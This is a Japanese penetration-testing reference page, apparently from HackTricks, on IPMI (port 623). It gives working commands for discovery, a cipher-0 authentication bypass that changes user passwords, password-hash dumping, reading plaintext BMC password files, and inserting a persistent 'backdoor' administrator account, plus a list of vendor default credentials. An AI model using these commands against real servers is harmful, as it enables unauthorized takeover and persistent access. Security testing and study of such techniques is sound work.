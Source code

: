 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)をフォローする
- **HackTricks**および**HackTricks Cloud**のGitHubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する

</details>

## 基本情報

### **IPMIの概要**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)**は、オペレーティングシステムや電源状態に依存せずにコンピュータシステムのリモート管理と監視を標準化したアプローチを提供します。この技術により、システム管理者はシステムをリモートで管理でき、電源がオフまたは応答がない場合でも特に以下のような用途に役立ちます：

- OSの起動前の構成
- 電源オフ管理
- システム障害からの回復

IPMIは温度、電圧、ファン速度、電源などを監視し、在庫情報を提供し、ハードウェアログを確認し、SNMP経由でアラートを送信することができます。動作には電源源とLAN接続が必要です。

Intelによって1998年に導入されて以来、IPMIは多くのベンダーによってサポートされ、特にバージョン2.0ではシリアルオーバーLANのサポートによりリモート管理機能が強化されています。主要なコンポーネントには次のものがあります：

- **Baseboard Management Controller (BMC):** IPMI操作のメインマイクロコントローラー。
- **通信バスおよびインターフェイス:** ICMB、IPMBなどの内部および外部通信用のインターフェース、およびローカルおよびネットワーク接続用のさまざまなインターフェース。
- **IPMIメモリ:** ログやデータを保存するためのメモリ。

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**デフォルトポート**: 623/UDP/TCP（通常はUDPですが、TCPでも実行されている可能性があります）

## 列挙

### 発見
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
**バージョン**を**識別**するには、次のようにします：
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMIの脆弱性

IPMI 2.0の世界では、Dan Farmerによって**暗号タイプ0**を介した重大なセキュリティの欠陥が明らかにされました。この脆弱性は、[Dan Farmerの研究](http://fish2.com/ipmi/cipherzero.html)で詳細に文書化されており、有効なユーザーが対象であれば、任意のパスワードで未承認アクセスが可能となります。この弱点は、HP、Dell、SupermicroなどのメーカーのさまざまなBMCで見つかり、すべてのIPMI 2.0の実装に広範な問題があることを示しています。

### **Cipher 0を介したIPMI認証バイパス**

この欠陥を検出するために、以下のMetasploit補助スキャナーを使用できます：
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
以下のように、この欠陥の悪用は`ipmitool`を使用して実現可能であり、ユーザーパスワードのリスト化や変更が可能です：
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval**

この脆弱性により、任意の既存ユーザーのソルト付きハッシュ化されたパスワード（MD5およびSHA1）を取得できます。この脆弱性をテストするために、Metasploitはモジュールを提供します：
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI匿名認証**

多くのBMCでデフォルトの設定として、「匿名」アクセスが許可されており、ユーザー名とパスワードが空の文字列で特徴付けられています。この設定を利用して、`ipmitool`を使用して名前付きユーザーアカウントのパスワードをリセットすることができます。
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI平文パスワード**

IPMI 2.0の重要な設計選択肢は、認証目的でBMC内に平文パスワードを保存する必要性です。Supermicroがこれらのパスワードを`/nv/PSBlock`や`/nv/PSStore`などの場所に保存することは、重大なセキュリティ上の懸念を引き起こします。
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Vulnerability**

スーパーマイクロのIPMIファームウェアにUPnP SSDPリスナーが含まれており、特にUDPポート1900で動作していることは、深刻なセキュリティリスクをもたらします。Intel SDK for UPnP Devicesバージョン1.3.1の脆弱性は、[Rapid7の開示](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play)に詳細に記載されており、BMCへのルートアクセスが可能となります。
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HPは、製造時に**Integrated Lights Out (iLO)**製品のデフォルトパスワードを**ランダム化**しています。この慣行は、他の製造業者とは対照的で、**静的なデフォルト資格情報**を使用する傾向にある。さまざまな製品のデフォルトのユーザー名とパスワードの要約は次のとおりです：

- **HP Integrated Lights Out (iLO)**は、デフォルトパスワードとして**工場でランダムに生成された8文字の文字列**を使用し、より高いセキュリティレベルを示しています。
- **DellのiDRAC、IBMのIMM**、および**FujitsuのIntegrated Remote Management Controller**などの製品は、「calvin」、「PASSW0RD」（ゼロを使用）、および「admin」など、簡単に推測可能なパスワードを使用しています。
- 同様に、**Supermicro IPMI (2.0)、Oracle/Sun ILOM**、および**ASUS iKVM BMC**も、「ADMIN」、「changeme」、「admin」がそれぞれのパスワードとして使用されています。


## BMCを介したホストへのアクセス

ベースボード管理コントローラー（BMC）への管理アクセスは、ホストのオペレーティングシステムにアクセスするためのさまざまな経路を開きます。直接的なアプローチは、BMCのキーボード、ビデオ、マウス（KVM）機能を悪用することです。これは、ホストをGRUBを介してルートシェルに再起動する（`init=/bin/sh`を使用）か、レスキューディスクとして設定された仮想CD-ROMからブートすることによって行うことができます。これらの方法により、ホストのディスクを直接操作することが可能となり、バックドアの挿入、データの抽出、セキュリティアセスメントに必要なアクションなどが可能となります。ただし、これにはホストの再起動が必要であり、これは大きな欠点です。再起動せずに実行中のホストにアクセスする場合、ホストの構成によって複雑さが異なります。ホストの物理的またはシリアルコンソールがログインしたままの場合、`ipmitool`を介してBMCのKVMまたはシリアルオーバーLAN（sol）機能を使用して簡単に接続を取得できます。i2cバスやSuper I/Oチップなどの共有ハードウェアリソースの悪用を探ることは、さらなる調査が求められる分野です。

## ホストからBMCへのバックドアの導入

BMCを搭載したホストを侵害した場合、**ローカルBMCインターフェースを利用してバックドアユーザーアカウントを挿入**し、サーバーに持続的な存在を作成することができます。この攻撃には、侵害されたホストに**`ipmitool`**が存在し、BMCドライバーサポートが有効になっている必要があります。次のコマンドは、ホストのローカルインターフェースを使用して新しいユーザーアカウントをBMCに挿入する方法を示しており、認証が必要ないことを回避しています。この技術は、Linux、Windows、BSD、さらにはDOSなど、さまざまなオペレーティングシステムに適用されます。
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスウォッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [Discordグループに参加](https://discord.gg/hRep4RUj7f)**または[telegramグループに参加](https://t.me/peass)または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**をフォロー**してください。
* **HackTricks**および**HackTricks Cloud**のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
